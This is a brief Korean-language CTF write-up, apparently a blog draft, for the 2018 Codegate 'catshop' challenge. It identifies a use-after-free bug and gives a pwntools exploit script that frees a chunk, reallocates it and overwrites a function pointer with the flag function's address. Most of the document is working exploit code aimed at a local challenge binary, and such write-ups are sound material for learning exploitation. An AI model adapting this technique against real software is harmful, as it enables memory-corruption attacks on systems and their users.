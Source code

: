 ```yaml
---
layout: post
title: "2018 Codegate catshop"
date: 2019-11-13
ctf: Codegate CTF
published : false
---
```


UAF 취약점이 발생한다. 

fget는 입력 받을 개수 -1 만큼 입력받고 마지막 문자를 NULL로 만들어서 4bytes 주소값을 넣으려면 5만큼 넣어줘야한다. 

```python
from pwn import *
 
p = process('./catshop')
e = ELF('./catshop')
 
flag = 0x080488b6
 
p.sendafter(':',p32(1)) # malloc
sleep(0.1)
p.sendafter(':',p32(2)) # free
sleep(0.1)
p.sendafter(':',p32(4)) # malloc
sleep(0.1)
p.sendafter(':',p32(5)) # length
sleep(0.1)
p.sendlineafter(':',p32(flag)) # fget -> \x00
sleep(0.1)
p.sendlineafter(':',p32(3)) # call
 
p.interactive()
```

